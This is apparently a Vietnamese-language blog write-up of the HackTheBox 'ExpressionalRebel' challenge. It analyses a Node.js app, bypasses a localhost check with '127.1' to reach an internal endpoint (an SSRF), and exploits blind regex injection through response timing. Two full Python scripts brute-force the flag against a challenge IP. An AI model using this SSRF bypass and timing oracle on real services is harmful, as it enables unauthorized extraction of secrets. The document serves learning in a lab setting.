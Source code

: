```yaml
---
layout: post
title: HTB ExpressionalRebel Writeup
date: 2022-12-01
categories: ["hackthebox"]
---
```


# Phân tích code

Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Ứng dụng này được viết bằng nodejs. Mình sẽ đọc thư mục routes trước để xem ứng dụng có những chức năng và đường dẫn nào.

Trong thư mục routes có 2 file api.js và index.js. Với file index.js có 2 hàm home page và deactivate page.

![Imgur](https://i.imgur.com/xOY0Jwx.png)

Chức năng homepage chỉ để hiển thị các thông tin. Còn chức năng deactivate thì có 1 input là ```secretCode```. Biến ```secretCode``` thì được vavalidate bởi hàm ```validateSecret```. Mình sẽ xem hàm ```validateSecret``` sẽ thực hiện điều gì.

```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

Hàm này sẽ thực hiện kiểm tra regex nếu input `secret` có khớp với `env.FLAG` hay không.

Tuy nhiên, quay lại chức năng ```deactivate```, chức năng này có hàm ```isLocal```.

![Imgur](https://i.imgur.com/dy8dcNN.png)

Hàm isLocal kiểm tra xem ```remoteAddress``` có phải từ 127.0.0.1 và ```host``` là 127.0.0.1:1337 hay không. Vì vậy, điều đó có nghĩa là chức năng này chỉ có thể truy cập được từ localhost.

Tiếp theo mình tiến hành phân tích tệp api.js.

![Imgur](https://i.imgur.com/b7kpkK2.png)

Chức năng evaluate sẽ thực hiện nhận các input ```csp``` sau đó sẽ được kiểm tra bởi hàm ```evaluateCsp```.

![Imgur](https://i.imgur.com/x6OlxTs.png)

Hàm ```evaluateCsp``` sẽ thực hiện phân tích cú pháp của CSP và nếu đầu vào có report-uri, nó sẽ được kiểm tra bởi hàm ```checkReportUri```.

Trong CSP thì report-uri sẽ được đi kèm với các url. Mọi người có thể tìm hiểu thêm trong link sau: 

- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)

```
Content-Security-Policy: report-uri <uri>;
Content-Security-Policy: report-uri <uri> <uri>;
```

Hàm checkReportUri như sau

![Imgur](https://i.imgur.com/F1XUa8S.png)

Hàm ```checkReportUri``` sẽ thực hiện kiểm tra xem có mấy URI và kiểm tra xem URI đã gửi có phải là 127.0.0.1 hay localhost từ hàm ```isLocalhost``` hay không.

![Imgur](https://i.imgur.com/2rN4Jb0.png)

Nếu tất cả các điều kiện được đáp ứng, hàm ```httpGet``` sẽ được thực thi tới URI đó.

![Imgur](https://i.imgur.com/CQ1D1d0.png)

Hàm ```httpGet``` sẽ thực hiện truy cập vào URI đó.

# Exploit

Trước tiên, mình sẽ gửi yêu cầu qua API để kiểm tra xem response nhận được là gì.

![Imgur](https://i.imgur.com/qdHYGHI.png)

Tiếp theo mình sẽ gửi thông tin report-uri với uri là 127.0.0.1.

![Imgur](https://i.imgur.com/2OT8roZ.png)

Mình nhận được các thông báo lỗi. Vì vậy, mình phải bypass chức năng kiểm tra ```isLocalhost``` của evaluate. Để ứng dụng có thể truy cập vào được 127.0.0.1.

Thế là mình nghĩ ngay cách bypass giống như lỗ hổng SSRF.

![Imgur](https://i.imgur.com/FoRJ3u7.png)

Cách trên có thể bypass hàm ```isLocalhost```` một cách dễ dàng. Đây là kết quả mình đã nhận được.

![Imgur](https://i.imgur.com/G89yQRb.png)

Vậy làm thế nào để có được flag. Quay lại hàm ```deactivate ```, trong hàm ```validateSecret``` có một regex kiểm tra xem secret có khớp với flag hay không. Và chức năng request chỉ có thể truy cập qua localhost.

Kết hợp với chức năng ```evaluate```, mình có thể truy cập chức năng ```deactivate``` bằng cách bypass ở trên.

![Imgur](https://i.imgur.com/Ke2dyWM.png)

Tuy nhiên, mình không thấy bất cứ điều gì xảy ra.

Với dữ liệu secret regex với flag, mình đã tìm kiếm các thông tin trên google. Sau một thời gian, mình đã tìm ra đây là lỗ hổng Blind Regular Expression Injection và có 1 cách khai thác nhưu sau.

- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/)

Theo thông tin mình đọc được thì khi input đoạn regex ```^(?=.\{1\})((.))*salt$``` nếu ra kết quả đúng thì request sẽ mất hơn 2s để thực hiện. Và nếu sai, yêu cầu sẽ thực hiện rất nhanh.

![Imgur](https://i.imgur.com/CKjF82e.png)

vậy mình sẽ code 1 đoạn khai thác tìm kiếm chiều dài của flag trước tiên.

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_flag():
    length_of_flag = 0
    for i in range(100):
        secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{.\{\{\{i\}\}\}\}\})((.*)*)*salt$')

        headers = {'Content-Type': 'application/json'}
        data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}
        response = requests.post(url, headers=headers, json=data)
        if response.elapsed.total_seconds() > 2:
            length_of_flag = i
            break
        
    print("length flag is: \%s " \% str(length_of_flag))
if __name__ == "__main__":
    brute_flag()
```

Kết quả mình nhận được chiều dài flag là 34:

![Imgur](https://i.imgur.com/yM2nNQw.png)

Sau đó mình thực hiện brute flag

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_force_flag():
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

    flag = ""
    for i in range(34):
        for i in range(len(alphabet)):
            secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{\{flag\}\{alphabet[i]\}.*\}\})((.*)*)*salt$')

            headers = {'Content-Type': 'application/json'}
            data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}

            response = requests.post(url, headers=headers, json=data)
            if response.elapsed.total_seconds() > 2:
                flag = flag + alphabet[i]
                break

    print("flag is: HTB\{\%s\}" \% str(flag))
if __name__ == "__main__":
    brute_force_flag()
```

Sau khi chạy xong mình đã có được flag

![Imgur](https://i.imgur.com/9rZbEQo.png)
